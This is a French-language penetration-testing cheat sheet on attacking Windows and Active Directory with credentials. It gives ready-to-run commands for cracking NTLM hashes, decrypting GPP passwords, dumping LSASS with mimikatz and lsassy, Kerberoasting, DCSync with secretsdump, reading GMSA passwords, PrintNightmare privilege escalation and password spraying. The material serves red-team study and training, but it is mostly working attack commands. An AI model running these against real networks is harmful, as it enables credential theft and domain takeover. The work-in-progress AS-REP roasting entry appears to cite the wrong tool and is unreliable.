 # Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Prérequis : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Prérequis : Accès à un partage SYSVOL sur la machine <IP> (compte du domaine)
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ crackmapexec smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```

### 1.3 Dump LSASS

> Récupération des hash NTLM des comptes s'étant connectés sur la machine
>
> Prérequis : compte administrateur local d'une machine cliente
>
> Objectifs : récupérer un hash NTLM d'un compte du domaine

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe 
```



## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Exploitation des partages réseau

#### 2.1.1 Listing des partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;

- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.

  

#### 2.1.2 Accès aux partages réseaux SMB

> Prérequis : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smbclient.md) pour consulter les actions réalisables



### 2.2 Attaques liées au compte de service

#### 2.2.1 Kerberoasting

> Prérequis : Compte utilisateur avec le droit d'utiliser le service
>
> Objectif : Récupérer un TGS (ticket signé avec le mot de passe du compte de service) pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```

Si l'erreur `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` survient, se mettre à l'heure en synchronisation avec le DC :

```bash
$ sudo ntpdate <IP_DC>
```



#### 2.2.2 ASREP Roasting (WIP)

> Se base sur la possibilité de demander un ticket de service en tant qu'un utilisateur du domaine sans connaître son mot de passe.
>
> Prérequis : Connaissance du compte de service dont on veut un ticket / paramétrage de l'utilisateur de domaine "pas de pré-authentification Kerberos"
>
> Objectif : Récupérer un TGT pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs 'DOMAIN/USERNAME' -no-pass
```



#### 2.2.3 DCSync

> Se base sur le fait qu'un compte de service ait les droits de répliquer les modifications d'un annuaire (i.e. synchronisation de tout l'annuaire)
>
> Prérequis : Compte de service avec les droits DCSync
>
> Objectif (court) : Devenir administrateur du domaine (Administrateur ou KRBTGT)
>
> Objectif (long) : Répliquer l'annuaire pour ensuite lire les modifications du fichier NTDS.dit et donc récupérer tous les hash des utilisateurs du domaine, dont l'administrateur du domaine

```bash
$ impacket-secretsdump 'DOMAINE/USERNAME:PASSWORD@<IP_DC>' -just-dc-user krbtgt
```



#### 2.2.4 Exploitation des comptes GMSA

> Dans le cas où on possède les droits de lire les mots de passe d'un compte GMSA (Group Managed Service Accounts)
>
> Prérequis : un compte avec les droits de lecture GMSA
>
> Objectifs : récupérer le hash NTLM du compte GMSA

```powershell
# Besoin d'un powershell
# Liste des comptes GMSA
PS C:\> Get-ADServiceAccount -Filter *
# Récupérer le SamAccountName
PS C:\> $gmsa =  Get-ADServiceAccount -Identity '<SamAccountName>' -Properties 'msDS-ManagedPassword'
PS C:\> $blob = $gmsa.'msDS-ManagedPassword'
# Récupération du mot de passe chiffré (secure)
PS C:\> $mp = ConvertFrom-ADManagedPasswordBlob $blob
# Conversion du mot de passe en hash NTLM
PS C:\> $hash1 =  ConvertTo-NTHash -Password $mp.SecureCurrentPassword
```



### 2.3 Autre

#### 2.3.3 Print-Nightmare

> Se base sur le fait qu'un utilisateur à moindre privilèges peut ajouter une imprimante et demander d'installer un driver pour cette dernière. C'est le service de spool qui va télécharger et charger ce driver. Ce service est lancé par SYSTEM. Il chargera donc le driver (une dll malicieuse pour RCE) avec ces droits, permettant une élévation de privilèges.
>
> Prérequis : un compte utilisateur sur une machine avec un service de spool (spoolsv) actif
>
> Objectif : Devenir administrateur local (SYSTEM)
>
> Ressource : https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html / https://www.thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

```powershell
&> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
&> import-module .\CVE-2021-1675.ps1
&> Invoke-Nightmare -NewUser "slash" -NewPassword "slash" # création d'un nouvel utilisateur
# Hôte - connexion avec le nouveau compte ayant les droits SYSTEM
$ evil-winrm -i 10.10.11.106 -u slash -p slash
```



#### 2.3.4 Password spraying

> Réutilisation de mots de passe valides
>
> Prérequis : un mot de passe valide avec une liste d'utilisateurs valides et susceptibles d'utiliser également ce mot de passe
>
> Objectif : obtenir un nouveau compte 

```bash
# Password spraying via le protocole Kerberos (pré-authentification)
$ kerbrute bruteuser --dc <NOM_DC> -d <DOMAIN.COM> <USERS_VALIDES_WORDLIST> <MDP_VALIDE>  
```

